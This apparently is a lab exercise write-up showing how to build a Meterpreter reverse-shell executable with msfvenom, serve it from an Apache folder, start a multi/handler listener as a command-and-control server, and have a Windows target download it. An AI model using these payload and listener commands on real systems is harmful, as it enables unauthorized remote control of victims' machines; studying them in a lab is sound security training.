 ```bash

```
### PROGRAM:

Find the attackers ip address using ifconfig

### Output:
<img width="560" height="387" alt="image" src="https://github.com/user-attachments/assets/2f9c842f-9ba0-4807-94e9-2ad66d41d1cc" />




Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe```

### Output:
<img width="579" height="82" alt="image" src="https://github.com/user-attachments/assets/5fdbc878-8359-4afc-b19d-d560f306c09d" />








copy the fun.exe into the apache ```/var/www/html ```folder



Start apache server ```sudo systemctl apache2 start``` 



Check the status of apache2 ```sudo apache2 status```


Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

### Output 
<img width="508" height="414" alt="image" src="https://github.com/user-attachments/assets/13423ad9-4c2d-49ac-b7d0-a019c009fa1d" />

<img width="1138" height="253" alt="image" src="https://github.com/user-attachments/assets/31d3ef0d-d754-4331-9643-93f2be64f869" />

<img width="522" height="367" alt="image" src="https://github.com/user-attachments/assets/32b00bf0-8dec-46ed-9c8b-b635831a7ffa" />




On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.

<img width="561" height="623" alt="image" src="https://github.com/user-attachments/assets/10a0196d-0530-4683-bcdb-e9c868945b11" />
